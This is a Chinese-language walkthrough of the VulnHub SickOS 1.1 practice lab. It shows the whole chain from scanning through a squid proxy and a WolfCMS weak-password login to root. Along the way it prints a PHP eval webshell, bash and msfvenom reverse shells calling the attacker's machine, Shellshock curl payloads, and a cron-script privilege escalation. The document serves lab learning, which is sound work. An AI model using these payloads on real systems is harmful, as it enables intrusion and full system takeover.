

# 靶场考察知识

## shellshock漏洞

shellshock即unix系统下的bash shell的一个漏洞, Bash 4.3以及之前的版本在处理某些构造的环境变量时存在安全漏洞, 向环境变量值内的函数定义后添加多余的字符串会触发此漏洞, 攻击者可利用此漏洞改变或绕过环境限制，以执行任意的shell命令,甚至完全控制目标系统

bash使用的环境变量是通过函数名称来调用的，以"`(){`"开头通过环境变量来定义，而在处理这样的恶意的函数环境变量时，并没有以函数结尾 "`}`" 为结束，而是执行其后的恶意shell命令

执行CGI 时会调用Bash将Referer、host、UserAgent、header等作为环境变量进行处理


## Linux计划任务提权

重点查看以下计划任务文件是否有可提权的操作

- /etc/crontab

- /etc/cron.d/*

- /etc/cron.daily/* 

- /etc/cron.hourly/* 

- /etc/cron.monthly/*

- /etc/cron.weekly/


## 数据库配置文件泄露

通常在网站的根目录或者config目录会保存着数据库配置文件, 此文件存有数据库用户的相关信息, 可能会对后续用户的登录爆破起到至关重要的作用


# 靶场搭建

SickOS靶场的下载地址: https://download.vulnhub.com/sickos/sick0s1.1.7z


# 渗透步骤

## 信息收集

### 1.确定目标IP

扫描C段存活主机: `nmap -sn 192.168.47.0/24` , 确定SickOs的靶机IP为`192.168.47.157`


### 2.端口扫描

分别使用TCP和UDP扫描目标主机的开放端口, 扫描结果显示目标主机开放了`22`、`3128`、`8080`端口, 目标主机的系统为LINUX, 其中3128端口为squid代理服务

```
nmap -sV --min-rate 10000 -p- 192.168.47.157 #nmap默认使用TCP扫描
nmap -sU -p22,3128,8080 192.168.47.157 
```


	


使用nmap自带的web漏扫脚本进行扫描, 没有发现漏洞

```
nmap --script=vuln -p22,3128,8080 192.168.47.157
```

	


访问`http://192.168.47.157:3128`, 页面爆出squid及其版本号3.1.19, 通过搜索引擎得知, squid是一个代理服务器和Web缓存服务器, 主要用于Unix一类系统使用


### 3.目录爆破

使用dirsearch对代理服务器`http://192.168.47.157:3128`进行爆破, 没有结果

	


既然`192.168.47.157:3128`是一个代理服务器, 那就尝试用它来作为目录爆破工具的代理参数来对`http://192.168.47.157`进行扫描, 扫描结果如下图所示

	


浏览器设置代理访问`http://192.168.47.157`, 页面显示"BLEHHH"		

	


访问`http://192.168.47.157/robots.txt`, 页面提示此网站的cms为`wolfcms`

	


尝试访问wolfcms目录: `http://192.168.47.157/wolfcms/`, 很幸运访问成功了, 从页面信息来看, 这像是一个博客网站, 既然是博客网站, 那么肯定有编辑文章的接口, 通常要使用此接口需要网站管理员权限, 那么接下来就要找到网站的后台地址


​	


通过搜索引擎搜索关于wolfcms的后台路径, 尝试访问`/?/admin`目录 ,成功爆出网站后台登录页面

					

			


## Web渗透

### 1.写入webshell

关于获取后台密码可以使用爆破或者弱口令, 此处很幸运使用了弱口令`admin/admin`就能直接登录进后台, 登录进后台后可以看到一些编辑文章的接口


选取标题为Articles的页面进行编辑, 在其源码的基础上添加上一行webshell代码:`<?php @eval($POST[123]);?>`


根据上述页面的源码输出内容, 可查找出此页面的网页路径为: `http://192.168.47.157/wolfcms/?articles.html`


打开蚁剑并为其配置代理: `http://192.168.47.157:3128`	


连接webshell, url地址为`http://192.168.47.157/wolfcms/?articles.html`, 连接密码为`123`

			


### 2.写入反弹Shell

在Atricles的编辑页面处添加上一行php反弹shell代码:`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.47.155/4444 0>&1'");?>`	


kali监听本机的4444端口, 然后点击Atricles页面触发反弹shell代码


## 主机渗透

### 1.获取主机基本信息

收集目标主机的基本信息, 确定目标系统为linux 32位, 当前shell的用户名为`www-data`, 该用户没有root权限

> www-data用户通常用于前端与后端的数据交互


### 2.发现网站配置文件

查看当前目录的文件, 发现一个疑似网站配置文件config.php, 通常此类文件存储着数据库用户的账号密码

	


查看该配置文件的内容, 发现数据库root用户的密码为`john@123`

	


### 3.尝试登录root权限的用户

查看`etc/passwd`文件, 像这里root、backup、sickos这些拥有bash环境的用户都要尝试使用上述的密码进行登录, 毕竟有时候网站的管理员会将数据库的密码和系统主机的密码设置成相同的

	


经过多次登录尝试后, 只有sickos用户登录成功


输入`sudo -l`, 查看当前用户权限为(ALL; ALL;ALL), 即拥有root用户权限


### 4.获取flag

执行`sudo /bin/bash`提权, 随后获取flag

	


# 另外一种渗透思路

## 1.nikto漏洞扫描

使用`nikto`对靶机进行漏洞扫描, 发现在网站的`cgi-bin/status`目录下疑似存在ShellShock漏洞

```
nikto -h 192.168.47.157 -useproxy http://192.168.47.157:3128
```

	


## 2.ShellShock漏洞利用

尝试使用ShellShock漏洞的exp, 执行whoami命令, 页面输出命令的执行结果

```
curl --proxy http://192.168.47.157:3128 -H "User-Agent:() { :;};echo;/usr/bin/whoami" http://192.168.47.157/cgi-bin/status
```


kali监听本机的4444端口, 利用ShellShock漏洞远程执行反弹shell命令

```
curl --proxy http://192.168.47.157:3128 -H "User-Agent:() { :;};/bin/bash -i >& /dev/tcp/192.168.47.157/4444 0>&1" http://192.168.47.157/cgi-bin/status
```


	


## 3.主机基本信息收集

查看目标主机是否安装了python: `dpkg -l | grep "python"`, 可以发现目标主机只安装了python2


## 4.计划任务提权

查看`/etc/crontab`, 没有可利用的计划任务


再查看`/etc/cron.d/`目录下的文件, 发现automate文件有一条计划任务似乎可以利用, 此计划任务的内容是, 让root用户每分钟使用python命令执行`/var/www/connect.py`文件, 也就是说若我们在`connect.py`写入python反弹shell代码, 则可获取一个root用户的shell

	


使用metasploit生成python的反弹shell代码

```
msfvenom -p cmd/unix/reverse_python lhost=192.168.47.155 lport=443 -f raw
```


将上述的python代码粘贴到`/var/www/connect.py`, 在非交互性Shell的环境执行vim命令, 有些操作可能会比较诡异, 例如你不能上下左右的移动光标。首先输入o进入插入模式后(插入新的一行), 然后复制粘贴, 再按右上角的`ESC`+`wq`, 最后再按回车键


再次查看`connect.py`, 可以发现反弹shell代码已经粘贴上去了


随后在kali开启nc监听本机的443端口, 一分钟后kali接收到root权限的shell

	


